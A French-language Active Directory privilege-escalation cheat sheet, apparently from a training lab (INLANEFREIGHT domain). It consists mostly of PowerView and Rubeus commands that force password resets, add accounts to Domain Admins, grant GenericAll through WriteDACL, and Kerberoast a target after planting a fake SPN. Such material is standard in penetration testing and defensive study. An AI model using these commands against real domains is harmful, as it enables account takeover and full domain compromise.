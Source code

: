 # Techniques d'Élévation de Privilèges

### Exploitation des ACLs Vulnérables

#### ForceChangePassword (Reset Password)

```powershell
# Créer un objet d'identifiants pour l'utilisateur actuel
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\user1', $SecPassword)

# Définir le nouveau mot de passe pour la cible
$NewPassword = ConvertTo-SecureString 'NewPassword123!' -AsPlainText -Force

# Forcer le changement de mot de passe
Set-DomainUserPassword -Identity targetuser -AccountPassword $NewPassword -Credential $Cred -Verbose
```

#### GenericAll sur un utilisateur

```powershell
# Changer le mot de passe
Set-DomainUserPassword -Identity targetuser -AccountPassword $NewPassword -Credential $Cred -Verbose

# Ajouter à un groupe privilégié
Add-DomainGroupMember -Identity 'Domain Admins' -Members targetuser -Credential $Cred -Verbose
```

#### GenericAll sur un groupe

```powershell
# Ajouter un utilisateur contrôlé à un groupe
Add-DomainGroupMember -Identity 'IT Admins' -Members controlleduser -Credential $Cred -Verbose
```

#### WriteDACL sur un objet

```powershell
# Attribuer GenericAll à un utilisateur contrôlé
Add-DomainObjectAcl -TargetIdentity 'Domain Admins' -PrincipalIdentity controlleduser -Rights All -Credential $Cred -Verbose
```

#### Exploitation de Kerberoasting avec GenericAll

```powershell
# Définir un SPN sur un compte cible
Set-DomainObject -Credential $Cred -Identity targetuser -SET @{serviceprincipalname='fake/LEGIT'} -Verbose

# Exécuter Kerberoasting sur ce compte
.\Rubeus.exe kerberoast /user:targetuser /nowrap
```
